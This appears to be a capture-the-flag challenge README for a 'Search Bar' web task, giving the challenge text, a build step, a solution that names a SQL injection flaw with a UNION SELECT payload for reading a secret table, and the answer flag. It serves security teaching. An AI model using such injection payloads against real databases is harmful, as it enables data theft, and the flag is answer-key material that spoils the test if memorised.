# Search Bar

## Question Text
> Warning: This is an  Advanced Challenge. Attempt only if you have completed everything else  

I heard the admins discussing that the flag is in secret table. I wonder whether I can get it.
`http://chal.gryphonctf.com:8002`

## Setup Guide
Run `./build.sh`

## Solution
This challenge has a SQL Injection vulnerability.
To retrieve the flag, type the following line into the query field.
```
' UNION SELECT 1, flag FROM secret--
```

### Flag
`MC{SQl_Inj3cti0n_isn7_s0_h4rd_af7er_a11}`


## Recommended Reads
1. https://en.wikipedia.org/wiki/SQL_injection
2. https://www.w3schools.com/sql/sql_injection.asp
3. https://www.owasp.org/index.php/SQL_Injection

